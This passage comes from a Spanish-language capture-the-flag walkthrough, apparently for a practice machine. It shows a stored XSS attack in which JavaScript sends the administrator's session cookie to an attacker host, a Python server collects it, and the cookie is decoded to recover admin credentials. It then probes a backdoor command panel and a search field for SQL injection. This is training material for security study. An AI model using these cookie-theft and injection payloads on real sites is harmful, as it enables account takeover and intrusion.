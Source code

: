         ```javascript
        var request = new XMLHttpRequest();
        request.open('GET', 'http://10.10.17.51/?cookie='+document.cookie, true);
        request.send();
        ```

    - Creamos un servidor web con python

        ```bash
        python3 -m http.server 80
        ```

    - Modificamos nuevamente los valores de la transferencia
    
        ```bash
        Amount: 1
        ID of Addressee: 1
        Comment to him/her: <script src="http://10.10.17.51/test.js"></script>
        ```

    Aqui ya vemos la cookie de session del administrador.

1. Decodificamos la cookie del admin.

    ```bash
    php --interactive
    php > echo urldecode("username=YWRtaW4%3D;%20password=SG9wZWxlc3Nyb21hbnRpYw%3D%3D")
    #Output
    username=YWRtaW4=; password=SG9wZWxlc3Nyb21hbnRpYw==

    echo "YWRtaW4=" | base64 -d; echo
    #Output
    admin

    echo "SG9wZWxlc3Nyb21hbnRpYw==" | base64 -d; echo
    #Output
    Hopelessromantic
    ```

1. Nos conectamos a la web como el usuario admin.

Hay un link user.txt que nos muestra un mensaje TODO que seria de mover todos los ficheros al Default Xampp folder.
Buscando por internet vemos que este directorio seria `C:\xampp\htdocs`.

En la pagina principal, vemos un panel de administracion. Aqui vemos 2 cosas,

- Un campo que nos permitiria ejecutar comandos en la maquina victima
- Un campo Search users que es en beta. Nos permite buscar usuarios por su ID

El campo para ejecutar comandos no funcciona porque tendriamos que estar loggeado desde la maquina victima atacando este servicio por localhost.
Ademas con Burpsuite, vemos que esta utilidad lanza una peticion a `/admin/backdoorchecker.php` con un parametro `cmd=...`

Como no podemos hacer gran cosa por el momento, analyzamos el campo de busqueda de usuarios.

```bash
1 -> admin
2 -> gio
3 -> s4vitar
1' -> There is a problem with your SQL syntax
```

